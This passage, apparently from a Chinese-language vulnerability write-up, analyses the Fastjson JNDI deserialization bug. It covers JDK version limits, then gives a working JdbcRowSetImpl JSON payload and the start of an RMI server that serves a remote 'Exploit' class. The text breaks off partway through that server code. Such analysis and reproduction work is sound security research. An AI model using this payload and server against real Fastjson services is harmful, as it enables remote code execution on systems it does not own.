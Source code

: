 ## 限制

主要限制因素是JDK版本。基于RMI利用的JDK版本 ≤ 6u141、7u131、8u121，基于LDAP利用的JDK版本 ≤ 6u211、7u201、8u191。

## PoC分析

JNDI类型PoC主要分类：

- 基于JNDI Bean Property类型（本篇主要分析）
- 基于JNDI Field类型

两种类型区别主要在于，Bean Property需要借助setter，getter方法触发；而Field类型没有这个限制

```java
String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
```


- **@type：**目标反序列化类名；
- **dataSourceName：**RMI注册中心绑定恶意服务；
- **autoCommit：**调用setAutoCommit方法，利用lookup方法加载远程对象。

## 复现

- JNDI + RMI

  ```java
  package cc.blbana.vul.fastjson;
  
  import com.alibaba.fastjson.JSON;
   
  public class FJPoC {
      /**
       * 构造Json PoC，反序列化漏洞入口文件
       * @param args
       */
      public static void main(String[] args) {
          String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
          JSON.parse(PoC);
      }
  }
  ```

  ```java
  package cc.blbana.vul.fastjson;
  
  import com.sun.jndi.rmi.registry.ReferenceWrapper;
   
  import javax.naming.NamingException;
  import javax.naming.Reference;
  import java.rmi.AlreadyBoundException;
  import java.rmi.RemoteException;
  import java.rmi.registry.LocateRegistry;
  import java.rmi.registry.Registry;
   
  public class RMIServer {
      /**
       * RMIServer启动
       * @param args
       */
      public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
          Registry registry = LocateRegistry.createRegistry(1099);
          System.out.println("Java RMI registry created. port on 1099");
          Reference reference = new Reference("Exploit", "Exploit", "http://127.0.0.1:8000/");
  ```